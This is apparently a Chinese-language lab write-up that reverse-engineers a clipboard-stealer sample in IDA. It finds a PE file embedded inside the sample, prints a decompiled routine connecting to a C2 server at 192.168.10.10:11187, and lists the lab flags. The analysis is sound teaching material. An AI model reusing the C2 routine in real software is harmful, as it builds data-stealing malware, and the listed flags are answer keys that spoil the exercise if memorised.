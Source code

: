 
## Lab-Clipboard Stealer 4 -- sub_140001C80
Flag: `FLAG{462fe0007f86957f59824e113f78947c}`

### 解題流程與思路
1. 進到`sub_140001BF0`之後可以先觀察`sub_140001870`，前面有source code可以看到他正在比對`byte_140005040`的前面兩個字元是不是等於`MZ`，也就是一支PE file的magic header，並且又比對了後面0x18的位置是不是等於0x20B，也就是另外一個magic header(用來判斷該程式是否可於64-bits運行)，由以上操作幾乎可以確定駭客把真正的程式(可能是惡意的)塞在正常的PE file中
    :::info
    如果只是要解題的話，到這邊就可以了，只要利用前一題學到的把`byte_140005040`改變他的type，變成`char[72770]`，再用Shift+E，把raw data export出來，丟到[online md5 checksum](https://emn178.github.io/online-tools/md5_checksum.html)，就可以得到這支檔案的hash(`462fe0007f86957f59824e113f78947c`)
    ![](https://hackmd.io/_uploads/SJoeiepGT.png)
    ![](https://hackmd.io/_uploads/rk7SigpGp.png)
    :::

## Lab-Clipboard Stealer 5 -- sub_140001C80
Flag: `FLAG{C2_cU540m_Pr0t0C01}`

### 解題流程與思路
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)